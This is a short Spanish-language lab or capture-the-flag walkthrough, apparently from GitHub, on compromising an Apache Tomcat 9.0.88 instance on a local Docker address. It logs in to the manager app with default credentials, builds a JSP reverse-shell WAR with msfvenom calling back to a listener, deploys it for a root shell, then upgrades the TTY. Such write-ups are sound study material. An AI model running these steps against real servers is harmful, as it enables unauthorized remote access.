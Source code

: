 
![image](https://github.com/user-attachments/assets/a7e4dcf2-061c-491c-a491-39c07754b346)

nmap: 8080 

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, pero en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/70c49eae-589a-4499-a86f-57ab5e1b3201)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/b0026c05-43eb-4f66-b9e6-244a3cd725d4)

> las credenciales: tomcat/s3cr3t

entramos al "magaer app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/3f06bccc-e4cf-4d75-b32f-4143b581aa5c)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
que nos creara un archivo .war con el contenido dentro.

![image](https://github.com/user-attachments/assets/59d9e8d0-98c2-4969-b196-740739bed25c)

lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell

![image](https://github.com/user-attachments/assets/304ea11c-12df-4f93-b46d-7a740e8b3ae9)

>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!

![image](https://github.com/user-attachments/assets/1e3c043a-a457-4448-94f1-c44b1db2eeac)

hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:

![image](https://github.com/user-attachments/assets/5636e904-0d74-46bf-b046-8fe35883d12c)

